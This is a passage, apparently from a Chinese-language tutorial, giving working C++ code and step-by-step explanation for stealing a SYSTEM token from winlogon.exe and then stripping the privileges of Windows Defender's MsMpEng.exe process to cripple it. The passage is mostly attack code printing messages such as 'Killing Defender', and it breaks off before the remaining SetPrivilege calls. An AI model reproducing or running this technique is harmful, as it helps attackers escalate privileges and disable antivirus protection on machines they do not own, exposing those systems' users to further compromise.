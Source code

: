 ```cpp
        CloseHandle(*hToken); // 关闭令牌句柄
        return false;
    }
    tkp.PrivilegeCount = 1; // 设置要调整的特权数量
    tkp.Privileges[0].Luid = sedebugnameValue; // 要启用的特权的 LUID
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED; // 启用该特权
    
    // 调整访问令牌的特权
    if (!AdjustTokenPrivileges(*hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL))
    {
        return false;
    }
    return true; // 返回true表示成功启用调试特权
}
```



### 2.获取system权限的令牌

通过获取winlogon.exe进程（该进程以SYSTEM账户运行）的令牌并模拟该用户，这是为了获取到比当前用户更高的权限。

调用OpenProcessToken()函数获取winlogon.exe进程的令牌, 再调用ImpersonateLoggedOnUser函数将使用获取到的令牌模拟用户登录，如果成功，那么在此后的代码执行过程中，将使用该令牌所代表的用户权限。这里因为`winlogon.exe`通常是以SYSTEM用户身份运行的，所以相当于得到了SYSTEM的权限

```cpp
wchar_t procname[80] = L"winlogon.exe"; // 目标进程名称
int pid = getpid(procname); // 获取目标进程ID
HANDLE phandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); // 打开目标进程

HANDLE ptoken;
OpenProcessToken(phandle, TOKEN_READ | TOKEN_IMPERSONATE | TOKEN_DUPLICATE, &ptoken); // 获取目标进程的访问令牌

// 尝试以目标用户身份运行
if (ImpersonateLoggedOnUser(ptoken)) {
    printf("[*] Impersonated System!\n");
}
else {
    printf("[-] Failed to impersonate System...\n");
}
// 关闭句柄
CloseHandle(phandle);
CloseHandle(ptoken);
```



### 3.降低令牌权限

以下代码的主要目的是获取`MsMpEng.exe`的句柄，启用该进程的调试特权，并通过`SetPrivilege()`函数移除`MsMpEng.exe`的大部分权限，这使得Windows Defender丧失了很多能力，包括加载驱动程序、更改系统环境、备份文件等

```cpp
// 重复上述步骤，但目标进程改为"MsMpEng.exe"
wchar_t procname2[80] = L"MsMpEng.exe";
pid = getpid(procname2);
printf("[*] Killing Defender...\n");
phandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
if (phandle != INVALID_HANDLE_VALUE) {
    printf("[*] Opened Target Handle\n");
}
else {
    printf("[-] Failed to open Process Handle\n");
}
EnableDebugPrivilege(phandle,&ptoken);
// 以下一系列SetPrivilege调用移除了所有特定的权限
```